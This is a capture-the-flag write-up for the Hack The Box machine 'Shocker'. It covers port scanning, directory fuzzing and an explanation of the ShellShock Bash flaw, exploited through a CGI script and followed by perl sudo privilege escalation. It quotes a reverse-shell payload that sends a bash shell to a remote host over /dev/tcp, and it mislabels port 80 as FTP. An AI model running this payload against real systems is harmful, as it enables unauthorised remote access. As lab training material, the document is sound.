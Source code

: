 # EASY - SHOCKER

# 1. Enumeration

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that this is a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 4000`, `-sS` for a SYN scan, and `-T4` for maximum speed.

![image.png](EASY-SHOCKER/image.png)

The scan has revealed the following open ports:

- **FTP** on port 80
- **SSH** on port 2222 (not the default port)

 Then, I conducted a more thorough scan to those two ports using service version detection (`-sV`) and the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I also saved the output for easy reference later (`-oN nmap`).

![image.png](EASY-SHOCKER/image%201.png)

After the scan I ran `whatweb` to check which technologies did the HTTP service use and tried visiting the webpage to look for web vulnerabilities. The web contained an image only and `wappalyzer` couldn’t discover any technologies that `whatweb` hadn’t discovered before.

![image.png](EASY-SHOCKER/image%202.png)

![image.png](EASY-SHOCKER/image%203.png)

As there were no technologies that could have any exploits I decided to fuzz directories with `Gobuster` to discover any hidden content that could exist. There were no files which I could access but the directory /cgi-bin/ was found, so I ran gobuster again to look for content inside it. 

![image.png](EASY-SHOCKER/image%204.png)

![image.png](EASY-SHOCKER/image%205.png)

While `Gobuster` was running I googled “cgi bin exploit” and I found this article https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi that mentioned the ShellShock vulnerability (**CVE-2014-6271**). This vulnerability consisted on attaching malicious code to environment variables. Before trying the exploit I checked gobuster and it had discovered a file called user.sh. I checked it but it didn’t seem to show anything useful. 

![image.png](EASY-SHOCKER/image%206.png)

# 2. ShellShock

So I decided to look for information about the vulnerability and I found a script to exploit it ( https://github.com/MY7H404/CVE-2014-6271-Shellshock ). But, before running the script I made sure I understood what was happening and why it worked.

ShellShock is a vulnerability in Bash, which is a command-line shell used in many Unix and Linux systems. Bash allows users to define functions, and those functions can be stored in environment variables.The problem arises when there is malicious code written after the function definition. Instead of just defining the function, Bash will also execute any code that comes **after** the function definition. This should never happen because environment variables are supposed to contain definitions, not executable code.

### How it works:

This is how a normal bash function definition looks like: `x='() { echo hello; }'` . If this function were to be stored inside an environment variable it would look like this: `env x='() { echo hello; }'`. Normally, this just defines a function `x` that prints "hello" when called. However, consider this command:`env x='() { echo hello;}; echo exploit'`. Under normal circumstances, Bash should ignore the `echo exploit` part and only define the function. However, in Bash versions vulnerable to ShellShock, the `echo exploit` would also be executed immediately after defining the function. This allows anyone to execute arbitrary code in systems which are running vulnerable versions of Bash. 

What the script I downloaded does is setting a listener in our system (to capture the reverse shell) and then sending a HTTP request to the vulnerable server which contains the payload the user chooses inside the User-Agent header. For example, if the tcp option is chosen, the payload is the following: `payload = "() { ignored;};/bin/bash -i >& /dev/tcp/%s/%s 0>&1" % (args.remote, args.port)` . This defines a function and then sends an interactive shell to our system. This works because when a CGI script is executed, the web server passes information (like HTTP request headers) to the script by setting them as environment variables. If the CGI script uses a vulnerable version of Bash to process the requests, it willnot only define the function but also execute the arbitrary code that comes after it. The arbitrary code is executed with the permissions of the user under which the vulnerable Bash process is running.

### Exploitation:

Running the downloaded script against the [user.sh](http://user.sh) script we found in the webserver successfully spawns an interactive shell in our system.

![image.png](EASY-SHOCKER/image%207.png)

# 3. Privilege Escalation

 Having access to the system I tried checking wether the user shelly had any sudo permissions. It had permissions to run perl as sudo so I looked up “perl privesc” in Google and I found a GTFOBins article which had a perl command to spawn a shell.

![image.png](EASY-SHOCKER/image%208.png)

After that, I spawned a tty with `python3 -c 'import pty; pty.spawn("/bin/bash")'`  and captured the root flag.

![image.png](EASY-SHOCKER/image%209.png)